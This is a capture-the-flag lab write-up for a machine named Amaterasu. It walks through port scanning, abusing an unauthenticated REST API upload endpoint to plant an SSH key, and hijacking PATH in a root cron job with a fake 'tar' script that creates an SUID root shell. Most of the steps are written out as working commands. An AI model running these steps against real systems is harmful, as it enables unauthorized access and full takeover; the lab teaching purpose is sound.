


# Amaterasu


## Summary
In this lab, you will exploit a file upload vulnerability in a custom REST API service to gain initial access as a low-privilege user. You will escalate privileges using Bash Gobbling combined with a vulnerable tar wildcard execution in a scheduled cron job to achieve root access.

## Learning Objectives
After completion of this lab, learners will be able to:

- Perform port scanning and identify a REST API service using tools like nmap, curl, and dirb.
- Enumerate the REST API endpoints to discover file upload functionality.
- Exploit the file upload to inject an SSH key into a low-privilege user's directory and gain SSH access.
- Identify a vulnerable cron job that executes a tar command and manipulate it using Bash Gobbling to escalate privileges.
- Gain root access to the lab and retrieve the final flag.

## Enumeration
Firstly the attack will scan for open services.
```
PORT      STATE  SERVICE          VERSION
21/tcp    open   ftp              vsftpd 3.0.3
22/tcp    closed ssh
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
2049/tcp  closed nfs
10000/tcp closed snet-sensor-mgmt
25022/tcp open   ssh              OpenSSH 8.6 (protocol 2.0)
33414/tcp open   http             Werkzeug httpd 2.2.3 (Python 3.9.13)
40080/tcp open   http             Apache httpd 2.4.53 ((Fedora))
Service Info: OS: Unix
```

Interestingly the http services are all on higher ports. Port 40080 seems fairly empty.


 However port 33414 has API endpoints.
 


The attacker can abuse the `http://192.168.182.249:33414/file-list?dir=/` endpoint to browse the filesystem. From here the attacker can discover the user.



## Privilege Escalation
With the hint that the attacker needs to upload an ssh key. They will take the following steps to gain a foothold.

Note: SSH is on an abnormal port!
```zsh
➜ ssh-keygen -t rsa -b 4096 -f ./pwn_key -N "" -C "alfredo@192.168.182.249"
Generating public/private rsa key pair.
Your identification has been saved in ./pwn_key
Your public key has been saved in ./pwn_key.pub
The key fingerprint is:

👤 rosskeddy 🏠 /work 
➜ ls     
pwn_key  pwn_key.pub

➜ curl -X POST -F "file=@./pwn_key.txt" -F "filename=/home/alfredo/.ssh/authorized_keys" http://192.168.182.249:33414/file-upload
{"message":"File successfully uploaded"}

👤 rosskeddy 🏠 /work 
✘ chmod 600 pwn_key 

👤 rosskeddy 🏠 /work 
✘ ssh -i ./pwn_key alfredo@192.168.182.249 -p 25022
The authenticity of host '[192.168.182.249]:25022 ([192.168.182.249]:25022)' can't be established.
ED25519 key fingerprint is: SHA256:kflJUZqQzlDWxXgGuod+HGsJPk++nvt5ZyveJgx1jgQ
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.182.249]:25022' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ 
```

The attacker discovers a cron entry.
```zsh
[alfredo@fedora etc]$ cat crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
[alfredo@fedora etc]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *
```

It appears that the attacker may be able to perform a PATH hijacking exploit. With the system being fedora it appears there may be some protection in /tmp/ against setting SUID bits to files in that dir. So the bash was piped to the /home/alfredo
```bash
cat > tar << 'EOF'
#!/bin/bash
cp /bin/bash /home/alfredo/rootbash
chmod +s /home/alfredo/rootbash
EOF

chmod +x tar

[alfredo@fedora ~]$ ls -lpa
total 1384
drwx------. 4 alfredo alfredo     159 Jan 19 09:20 ./
drwxr-xr-x. 3 root    root         21 Mar 28  2023 ../
-rw-------. 1 alfredo alfredo    4003 Jan 19 09:19 .bash_history
-rw-r--r--. 1 alfredo alfredo      18 Jan 25  2021 .bash_logout
-rw-r--r--. 1 alfredo alfredo     141 Jan 25  2021 .bash_profile
-rw-r--r--. 1 alfredo alfredo     492 Jan 25  2021 .bashrc
-rw-------  1 alfredo alfredo      20 Jan 19 08:57 .lesshst
-rwx------. 1 alfredo alfredo      33 Jan 19 08:16 local.txt
drwxr-xr-x. 3 alfredo alfredo      65 Jan 19 09:19 restapi/
-rwsr-sr-x  1 root    root    1390080 Jan 19 09:23 rootbash
drwx------. 2 alfredo alfredo      61 Jan 19 08:51 .ssh/
[alfredo@fedora ~]$ ./rootbash -p
rootbash-5.1# cd /root/
rootbash-5.1# ls
anaconda-ks.cfg  build.sh  proof.txt  run.sh
```